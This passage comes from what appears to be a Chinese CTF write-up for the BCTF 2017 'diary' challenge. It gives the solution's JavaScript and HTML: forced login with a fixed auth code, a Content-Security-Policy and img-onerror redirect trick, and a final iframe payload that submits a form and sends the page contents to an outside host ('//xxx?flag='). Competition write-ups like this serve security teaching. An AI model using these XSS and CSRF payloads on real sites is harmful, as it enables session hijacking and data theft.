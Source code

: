 ```
    //用我们的code登录
    var redir = function() {
        var code = "kAj32I0LE2KETl5ZHS6FFRJohsE4LA";
        var loginImg2 = document.createElement('img');
        loginImg2.src = 'http://diary.bctf.xctf.org.cn/o/receive_authcode?state=preauth&code=' + code;
        loginImg2.onerror = function() {
            window.location = 'http://diary.bctf.xctf.org.cn/diary/';
        }
    }


</script>
```

然后是xss2.html，上面提到的第四步

```
<meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn">
<img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="redir();">
<script>
    
    var redir = function() {
        window.location = 'http://diary.bctf.xctf.org.cn/accounts/login/';
    };
</script>
```

最后是完成攻击的payload
```
<iframe src='http://119.29.192.14/bctf2017/xss/xss2.html'>
</iframe>
<script>
setTimeout(function() {
    var profileIframe = document.createElement('iframe');
    profileIframe.setAttribute('src', 'http://diary.bctf.xctf.org.cn/survey/');
    profileIframe.setAttribute('id', 'survey');
    document.body.appendChild(profileIframe);

    profileIframe.onload = function() {
        document.getElementById('survey').contentWindow.document.forms[0].suggestion.value='give me flag';
        document.getElementById('survey').contentWindow.document.forms[0].submit();


        setTimeout('location.href=\'//xxx?flag=\'+document.getElementById(\'survey\').contentWindow.document.body.innerHTML;', 3000);
    }
}, 5000);
</script>
```

![image_1bdtg2l1d198b1jph13fmffqg5g3u.png-50.5kB][10]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kkihjpctpr078cyrzrgip1ww/image_1bdt8qkc81s8ni7h17b7j21ck19.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k3o5raq7ozrnazfd5sfeojua/image_1bdt8uheq1gjhk37fht1nf81hd2m.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/f6023kwkx4nvjivhad1bso6b/image_1bdtb3dlk36js2i1605osn1hsq13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gfgzgx51t10slbclxuhzcr7f/image_1bdtbdbq012ntmdqss1ep03s21g.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jqq0ihh2mjb0phbd6auxw3hx/image_1bdtbp175hhc1nnjeg4lde1i8q1t.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/grrwwcnvdx6f6ue1v4ae5p1g/image_1bdtccqam15qf1hai1st21f661v2k2a.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9iw4qblc7cw108tuarkkgjuh/image_1bdte4eg9k9s13urld1g8t1jmt2n.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jz8831kzjijmhk4ewprxdtt6/image_1bdter1ojars1t0gfcf11ss1vl634.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sn7gt5nm8dwx4h18p9binz9b/image_1bdtes5dj14jg1atr5tf1chg8hb3h.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t0q0gcv10aov10jmy0s2f1xi/image_1bdtg2l1d198b1jph13fmffqg5g3u.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/monq5zoc8w02jgztjnndvgwt/image_1bdtg5fqebnmier3bkmcc1heb4b.png